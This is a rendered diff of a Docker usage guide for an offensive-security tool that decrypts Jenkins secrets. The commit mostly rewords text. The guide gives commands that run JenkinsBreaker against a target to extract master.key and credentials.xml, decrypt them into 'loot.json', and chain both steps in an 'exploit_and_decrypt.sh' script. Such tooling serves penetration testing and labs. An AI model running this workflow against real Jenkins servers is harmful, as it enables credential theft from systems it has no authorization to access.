

Before and after one commit to ridpath/heaplessNights, a Markdown page: offsec-jenkins/DOCKER_USAGE.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering.

````diff
--- a/offsec-jenkins/DOCKER_USAGE.md
+++ b/offsec-jenkins/DOCKER_USAGE.md
@@ -248,7 +239,7 @@ Unlike some Jenkins lab setups, this Docker configuration:
 
-**Isolated Environment**:
-- Decryption happens in isolated container
-- No host system dependencies
+**Container Isolation**:
+- Decryption occurs in isolated container
+- No host system dependencies required
 - Clean removal with `docker-compose down`
 
 ---
@@ -257,9 +248,8 @@ Unlike some Jenkins lab setups, this Docker configuration:
 
 ### Permission Denied on Output Files
 
-If output files have wrong permissions:
+Run with specific user ID:
 ```bash
-# Run with user ID
 docker run --rm \
   -v $(pwd)/jenkins_files:/data:ro \
   -v $(pwd)/outputs:/outputs \
@@ -270,22 +260,22 @@ docker run --rm \
 
 ### Files Not Found
 
-Ensure files are in the correct location:
+Verify volume mount:
 ```bash
-# Check volume mount
 docker run --rm -v $(pwd)/jenkins_files:/data:ro alpine ls -la /data
+```
 
-# Should show:
-# master.key
-# hudson.util.Secret
-# credentials.xml
+Expected output:
+```
+master.key
+hudson.util.Secret
+credentials.xml
 ```
 
 ### Docker Not Available
 
-If Docker is not installed:
+Use native Python:
 ```bash
-# Use native Python instead
 python decrypt.py --path jenkins_files --reveal-secrets
 ```
 
@@ -293,20 +283,20 @@ python decrypt.py --path jenkins_files --reveal-secrets
 
 ## Integration with JenkinsBreaker
 
-### Complete Workflow
+### Workflow
 
-**Step 1**: Exploit Jenkins with JenkinsBreaker
+**Step 1**: Extract files with JenkinsBreaker
 ```bash
 cd JenkinsBreaker
 python3 JenkinsBreaker.py --url http://target:8080 --extract-all
 ```
 
-**Step 2**: Copy files to Docker volume
+**Step 2**: Copy to Docker volume
 ```bash
 cp extracted/* ../offsec-jenkins/jenkins_files/
 ```
 
-**Step 3**: Decrypt with Docker
+**Step 3**: Decrypt
 ```bash
 cd ../offsec-jenkins
 docker-compose run --rm offsec-jenkins \
@@ -316,14 +306,14 @@ docker-compose run --rm offsec-jenkins \
   --force
 ```
 
-**Step 4**: Analyze results
+**Step 4**: Analyze
 ```bash
 cat outputs/loot.json | jq '.'
 ```
 
-### Automated Script
+### Automation Script
 
-Create `exploit_and_decrypt.sh`:
+`exploit_and_decrypt.sh`:
 ```bash
 #!/bin/bash
 TARGET=$1
@@ -333,7 +323,6 @@ if [ -z "$TARGET" ]; then
   exit 1
 fi
 
-# Exploit
 cd JenkinsBreaker
 python3 JenkinsBreaker.py --url "$TARGET" --extract-all --output ../offsec-jenkins/jenkins_files
 
````
Also changed, not shown: other parts of offsec-jenkins/DOCKER_USAGE.md (+42 -69 lines).
